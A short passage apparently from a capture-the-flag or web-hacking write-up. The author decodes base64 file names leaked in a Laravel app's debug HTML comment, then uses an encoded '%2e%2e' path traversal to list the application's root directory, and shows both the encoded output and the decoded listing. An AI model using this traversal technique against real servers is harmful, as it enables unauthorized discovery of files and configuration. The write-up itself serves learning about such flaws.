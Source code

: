 ```
<!-- Debug:
MS5qcGVn.5d73d278c745a
Mi5qcGVn.5d73d278c7461
My5qcGVn.5d73d278c7463
NC5qcGVn.5d73d278c7466
NS5qcGVn.5d73d278c7468
-->
```

decoded `MS5qcGVn` to `1.jpeg` then figured it out it would show there the output of any directory. Then I tried a path transerval attack with `%2e%2e` and I got output

```
<!-- Debug:
YXBw.5d73d2e61b810
YXJ0aXNhbg==.5d73d2e61b819
Ym9vdHN0cmFw.5d73d2e61b81c
Y29tcG9zZXIuanNvbg==.5d73d2e61b820
Y29tcG9zZXIubG9jaw==.5d73d2e61b822
Y29uZmln.5d73d2e61b824
ZGF0YWJhc2U=.5d73d2e61b827
cGFja2FnZS5qc29u.5d73d2e61b829
cGhwdW5pdC54bWw=.5d73d2e61b82b
cHVibGlj.5d73d2e61b82d
cmVhZG1lLm1k.5d73d2e61b82f
cmVzb3VyY2Vz.5d73d2e61b831
cm91dGVz.5d73d2e61b834
c2VydmVyLnBocA==.5d73d2e61b836
c3RvcmFnZQ==.5d73d2e61b838
dGVzdHM=.5d73d2e61b83a
dmVuZG9y.5d73d2e61b83c
d2VicGFjay5taXguanM=.5d73d2e61b83e
-->
```

which decodes to

```
app
artisan
bootstrap
composer.json
composer.lock
config
database
package.json
phpunit.xml
public
readme.md
resources
routes
server.php
storage
tests
vendor
webpack.mix.js
```
